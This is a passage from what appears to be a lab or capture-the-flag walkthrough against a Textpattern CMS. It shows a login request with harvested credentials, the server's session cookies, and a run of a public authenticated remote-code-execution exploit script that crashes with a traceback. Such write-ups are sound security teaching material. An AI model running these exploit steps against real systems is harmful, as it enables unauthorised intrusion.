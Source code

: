 ```http
Connection: close

lang=en&p_userid=mayer&p_password=lionheart&_txp_token=
```

### response
```http
HTTP/1.1 200 OK
Date: Sat, 19 Nov 2022 15:36:47 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.5.38-1~dotdeb+7.1
Set-Cookie: txp_login=mayer%2C47a600c191f0c7e05dcf997ce6aea1c3; httponly
Set-Cookie: txp_login_public=f00ffa8296mayer; path=/textpattern/
Content-Security-Policy: frame-ancestors 'self'
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Length: 28824
Connection: close
Content-Type: text/html; charset=utf-8


<script>
...
```

> It works!
{: .prompt-info }

## authenticated RCE

As we now have credentials for the `Textpattern` installation, we can try the identified authenticated remote code execution.

```bash
$ python3 /usr/share/exploitdb/exploits/php/webapps/48943.py  

Software: TextPattern <= 4.8.3
CVE: CVE-2020-XXXXX - Authenticated RCE via Unrestricted File Upload
Author: Michele '0blio_' Cisternino

[*] USAGE: python3 exploit.py http://target.com username password
[*] EXAMPLE: python3 exploit.py http://localhost admin admin

$ python3 /usr/share/exploitdb/exploits/php/webapps/48943.py http://192.168.76.219/textpattern/ mayer lionheart

Software: TextPattern <= 4.8.3
CVE: CVE-2020-XXXXX - Authenticated RCE via Unrestricted File Upload
Author: Michele '0blio_' Cisternino

[*] Authenticating to the target as 'mayer'
[✓] Logged in as 'mayer' (Cookie: txp_login=mayer%2C4bf37dae3d9c499b6efbd883beb25d8c; txp_login_public=e9d4041c57mayer)
[*] Grabbing _txp_token (required to proceed with exploitation)..
Traceback (most recent call last):
  File "/usr/share/exploitdb/exploits/php/webapps/48943.py", line 89, in <module>
    scriptJS = soup.find_all("script")[2].string.replace("var textpattern = ", "")[:-2]
AttributeError: 'NoneType' object has no attribute 'replace'
```
